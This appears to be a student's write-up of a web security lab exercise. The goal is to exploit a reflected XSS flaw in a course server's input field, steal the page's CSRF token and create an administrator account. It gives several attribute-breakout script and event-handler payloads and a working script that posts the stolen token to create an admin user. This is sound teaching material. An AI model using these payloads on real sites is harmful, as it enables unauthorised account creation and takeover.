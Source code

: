 # Cross-site scripting (XSS)

### Attack purpose:

- http://193.226.5.99/websec4
- Create an administrator account with the username:
    - [`first_letter_of_first_name`].[`last_name`]
    - e.g. t.stefanut

### Attack steps:

- Authenticate in the application with: `user3` / `pass`
- Make an analysis to find vulnerabilities
- Find a way to exfiltrate CSRF token
- Use the token and CSRF attack to create the account

### User journey:

- Attacker’s page with a link / automated redirection
- Page on the attacked server (legitimate page)
- Attacker’s page with a link / automated redirection
- Page on the attacked server (legitimate page)

## Vulnerabilities

![1](1.png)
![2](2.png)
![3](3.png)
![4](4.png)


```

" /> <script src="unsafe-inline"> console.log("vulnerability discovered!") </script> <input value="

" /> <script> console.log("vulnerability discovered!") </script> <input value="

aaaa" /> <img onerror="alert("vulnerability discovered")" /><input value="

bia" /><input type="button" value="Click Me" onclick="alert('Admin Account Created')" style="cursor: pointer;">
<input value="bia

bia" /><style>
    body {
        background-image: url('data:image/svg+xml;utf8,<svg xmlns="http://www.w3.org/2000/svg"><script>alert("Admin Account Created")</script></svg>');
    }
</style>
<input value="bia


" /> <script>
    // Extract the CSRF token
    var csrfToken = document.querySelector('input[name="csrf"]').value;

    // Construct the POST request payload
    var payload = "csrf=" + csrfToken + "&username=b.mitroi&password=bmitroi123&role=admin";

    // Send the POST request using Fetch API
    fetch("http://193.226.5.99/websec4/index.php", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: payload
    })
    .then(response => response.text())
    .then(data => console.log("Account creation response:", data))
    .catch(err => console.log("Error:", err));
</script> <input value= "
```